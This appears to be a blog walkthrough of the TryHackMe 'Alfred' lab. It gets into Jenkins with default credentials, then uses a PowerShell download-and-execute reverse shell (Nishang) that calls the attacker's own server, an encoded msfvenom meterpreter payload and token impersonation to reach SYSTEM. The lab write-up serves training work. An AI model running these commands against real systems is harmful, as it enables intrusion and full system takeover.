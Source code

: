 ```yaml
---
title: "TryHackMe-Alfred" 
layout: post
date: 2020-04-30 21:12
tag:
- Windows
- Meterpreter
- Privilege Escalation
image: https://ormond5.github.io/MyBlog/assets/images/pictures/Alfred/Alfred.png
headerImage: true
category: blog
author: DeShaun Ormond
readtime: 5 minutes
---
```


Another common OSCP exam machine, in this Batman themed room, exploit Jenkins by getting a shell with powershell, then escalate your privileges by exploiting Windows authentication tokens.

You can access this room here: [Alfred](https://tryhackme.com/room/alfred)


__This room requires a TryHackMe subscription to join__

## Table of Contents

- [Task 1: Initial Access](#initial-access)
- [Task 2: Switching Shells](#switching-shells)
- [Task 3: Privilege Escalation](#privilege-escalation)


### Initial Access

**Let's Begin!**


**Question 1: How many ports are open?**
  
Deploy the box and run a nmap scan! Since the box doesnt respond to ping scans include the -Pn tag. 

~~~
nmap -sC -sV <boxip> -Pn 
~~~

10.10.51.179


 ![nmap_scan](https://ormond5.github.io/MyBlog/assets/images/pictures/Alfred/nmap.png)

Our nmap scan shows 3 ports running on this box. Therefore we have our first answer. 

{: .box-success}
**Flag 1 :** X 

**Quesiton 2: What is the username and password for the log in panel(in the format username:password)**

From the nmap scan we see that we have two http services running. Navigate to the webserver on port 8080. You will see a login page. what are the chances that the manager didnt change the default credentials... let's try admin for both username and password

![admin](https://ormond5.github.io/MyBlog/assets/images/pictures/Alfred/adminlogin.png)

We are in and we found our next flag! 

 {: .box-success}
**Flag=** admin:admin


**Question 3: Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it** 

The next question tells us to look for a tool that allows us to execute commands. After some clicking and snooping around you will find a place where you can input commands. 

![flag3](https://ormond5.github.io/MyBlog/assets/images/pictures/Alfred/projectbuild.png)

Replace 'whoami' with the command below and click apply and save. 
~~~
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port 1234
~~~

Before we go any further, set up a netcat listening sesison on the port you have chosen above. 
~~~
nc -lnvp <1234>
~~~

 Then if you have not already you will need to download Nishang's Invoke PowerShellTcp script. 

```
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 

```

You also need to start up a web server, python allows for us to do this easily buy just running a simple command:

~~~
python3 -m http.server 
~~~

![httpserver](https://ormond5.github.io/MyBlog/assets/images/pictures/Alfred/python-httpserver.png)


All together your terminals should look like this:

![tmux](https://ormond5.github.io/MyBlog/assets/images/pictures/Alfred/tmux0.png)


Once you have the Powershell Script downloaded and the http server running navigate back to the project menu and select build. 

![build](https://ormond5.github.io/MyBlog/assets/images/pictures/Alfred/Build.png)

Go back to your terminal and you should see on the python http server the victim ip reaching out and getting our Powershell script. Along with a shell opening up on your listening shell! 

![tmux1](https://ormond5.github.io/MyBlog/assets/images/pictures/Alfred/tmux.png)

Once you are in, navigate to bill's Desktop directory and obtain the flag. 

~~~
PS C:\Users\bruce\Desktop> type user txt
~~~

{: .box-success}
**Flag:** XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX


### Switching Shells

The next task instructs us to switch to a meterpreter shell to allow for easier privilege escalation. They give us a command to create a windows meterpreter revese shell to use. 

~~~
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder 
      x86/shikata_ga_nai LHOST=<IP> LPORT=5555 -f exe -o alfred.exe
~~~

Open a new terminal and run the command above. I set the listening port on port 5555 and set the shell name to alfred.exe. Download that and you get our only flag

![msfvenom](https://ormond5.github.io/MyBlog/assets/images/pictures/Alfred/msfvenom.png)

{: .box-success}
**Flag:** XXXXX

Open up another listening session for port 5555
~~~
nc -lnvp 5555
~~~

Looking back at the room, it tells us also to create a payload to upload to the victim's machine. We will enter this in the same place we entered the last place where we entered the commands on the website. 

~~~
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/alfred.exe','alfred.exe')"
~~~

Once you have saved and applied the new changes, navigate back to the projects page and select 'Build'. 

You may have to cancel the previous exploit, which will kick you out. Don't worry! Run the command and then re-run task 1 to get back in. 

![build](https://ormond5.github.io/MyBlog/assets/images/pictures/Alfred/Build.png)


Once you get back in, you should see alfred.exe in your current directory. and run the command: 

```
Start-Process alfred.exe
```
This should spawn a meterpreter shell on your newest listening shell! 


### Privilege Escalation


"Now that we have initial access, let's use token impersonation to gain system access." 


Read the information on Windows tokens then come back when you are ready to move one. 

**Question 1: View all the privileges using whomai /priv**

In your first shell run the command: 

~~~
'whoami /priv' 
~~~
![priv](https://ormond5.github.io/MyBlog/assets/images/pictures/Alfred/privilege.png)

We see two of the most commonly abused privileges are enbabled! In your metasploit shell enter the command: 

~~~
load incognito
list_tokens -g
~~~

"Load incognito" will allow us to exploit this vulnerability and "list_tokens -g" will show us which tokens are available. Once we see which tokens are avaliable we can impersonate the one with the highest privilege "BUILTIN\Adminstrators" 

![incognito](https://ormond5.github.io/MyBlog/assets/images/pictures/Alfred/task3-2.png)

![impersonate](https://ormond5.github.io/MyBlog/assets/images/pictures/Alfred/Task3-flag3.png)

```
Run getuid command to get the next flag
```

{: .box-success}
**FLAG: XX XXXXXXXXXXXXXX** 


The last step instructs us to switch process so that we may permissions of a privileged user. Right now we just have elevated privileges. Run the commands below and search for PID for services.exe. 

~~~
meterpreter> ps
~~~

Once you have found the PID number, migrate to the PID to obtain privileged user permissions 

![final flag](https://ormond5.github.io/MyBlog/assets/images/pictures/Alfred/FinalFlag.png)



Congrats!! You have completed this room!  
<p align="center">
  <img src="https://media.giphy.com/media/14iPmDWiwIkyk0/giphy.gif">
</p>

 
